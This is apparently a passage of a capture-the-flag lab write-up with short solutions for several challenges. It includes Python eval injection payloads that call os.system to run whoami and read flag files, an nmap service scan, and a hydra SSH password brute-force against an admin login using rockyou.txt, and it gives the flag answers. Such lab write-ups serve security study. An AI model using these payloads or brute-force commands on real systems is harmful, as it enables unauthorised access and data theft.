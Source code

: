>eval("__ import__('os').system('whoami')")

![image](https://hackmd.io/_uploads/B1bfFCo_6.png)

[● eval to import a module](https://stackoverflow.com/questions/17136772/eval-to-import-a-module)

> eval("__ import__('os').system('cat /f*')")

![image](https://hackmd.io/_uploads/S1F3cCodT.png)
### Get FLAG
**FlAG: flag{d77ea135-bca7-4ff9-be12-fbad9dd4ec8d}**

## zaproxy
![image](https://hackmd.io/_uploads/B1JRw9i_a.png)
192.168.240.109:10002

### zaproxy Solution
![image](https://hackmd.io/_uploads/HJ_M_5oua.png)

![image](https://hackmd.io/_uploads/SywvucjOT.png)
### Get FLAG
**FlAG: jquery-3.3.1.slim.min.js**

## nmap
![image](https://hackmd.io/_uploads/S1Pt1ns_6.png)
http://192.168.240.145/
![image](https://hackmd.io/_uploads/rks-g3iua.png)

### nmap Solution
>nmap -sC -sV -T4 192.168.240.145 

![image](https://hackmd.io/_uploads/HJuVZnsOT.png)
### Get FLAG
**FlAG: MySQL 5.0.51a-3ubuntu5**

## ssh-cracker
![image](https://hackmd.io/_uploads/S1aj3Y0da.png)
ssh://192.168.240.115
![image](https://hackmd.io/_uploads/HyzlzJ2d6.png)

### ssh-cracker Solution
> hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.240.115
